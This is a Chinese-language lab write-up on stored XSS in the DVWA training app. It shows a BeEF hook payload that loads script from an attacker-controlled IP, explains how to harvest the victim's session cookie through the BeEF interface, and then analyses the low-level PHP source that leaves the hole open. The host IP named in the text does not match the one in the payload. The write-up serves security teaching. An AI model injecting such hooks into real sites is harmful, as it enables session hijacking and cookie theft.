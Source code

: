 ## 3. 使用beef盗取cookie

下面我们使用beef配合完成攻击。
这里我们将payload插入页面后，当用户浏览了这个页面，`<script>`标签就会远程执行我们的beef上面的恶意js代码从而盗取cookie。	
启动BEEF方法如下:
第一步，点击左侧终端后输入 `beef-xss` 
第二步，等待打开Web界面，输入帐户密码。密码及账户均为 `beef`

开启正式的攻击测试：
插入的payload为： 
`<script src="http://192.168.0.150:3000/hook.js"></script>`
其中172.16.11.2为beef工具所在的主机IP，根据实际情况给予修改即可。另Linux查看本机IP地址的命令为：ifconfig
之后我们先刷新一下页面，确保我们插入的代码执行。
再进入之前打开的BEEF界面，查询我们收到的cookie：
进入BEEF后我们先点击 ` Command Browser` -> `Commands` -> 在`Searche`框输入`cookie`并回车 -> 进入新的页面后点击右下角`Execute `->之后点击中间出现的记录 此时我们就可以在右侧看到我们收到的cookie了。 
完成全部操作后我们将得到一个格式为：
php=xxxxxxxxxx;security=low样式的cookie。



## 4.漏洞源码分析
在DVWA点击ViewSource查看源码

![image-20220130133611618](../../images/image-20220130133611618.png)

首先`if( isset( $_POST[ 'btnSign' ] ) )`,这里是对表单提交的的name属性值为btnSign的值进行效验是否为空值，如果为空值则返回`flase`，不为空则继续进行下一步操作。
接下来我们可以看见`trim`函数，这个函数的主要作用就是去除其()内数据的两侧的空白字符或其他预定义字符。而这里处理的就是一post方式提交的name属性值为mtxMessage的数据，处理完后值赋给`$message`。`$name`同理。
接下来是`stripslashes`函数，这个函数一般情况下是伴随着`addslashes`函数出现，作用是删除由 `addslashes`函数添加的反斜杠。这里就是将上面由`addslashes`函数处理`$message`,`$name`进行再处理，去掉了\，然后再重新赋值给自己。
接下来就是运用`mysql_real_escape_string`函数处理`$name`,  `mysql_real_escape_string`函数会转义 SQL 语句中使用的字符串中的特殊字符。
 这些字符包括：
 - \x00
 - \n
 - \r
 - \
 - '
 - "
 - \x1a
接下来就是拼接sql语句，赋值给\$query,为下面执行插入数据做准备
紧接着就是一个使用or的赋值判断句，`mysql_query()` 函数作用执行()内的 MySQL语句进行查询，`die()` 函数作用是输出()内的数据，并退出当前脚本。在这里也就是先用`mysql_query()` 函数先行`$query`里的MySQL语句，如果语句格式没有错误的情况下则执行成功，返回true给\$result,反之执行失败，则用die函数输出`mysql_error()`函数所获取的MySQL 操作产生的文本错误信息，并且退出语句。
分析到这里可以看到，LOW级别的数据处理和过滤过程没有针对XSS做过考量。所以插入的最低级的xss语句就可以获得对应的结果。
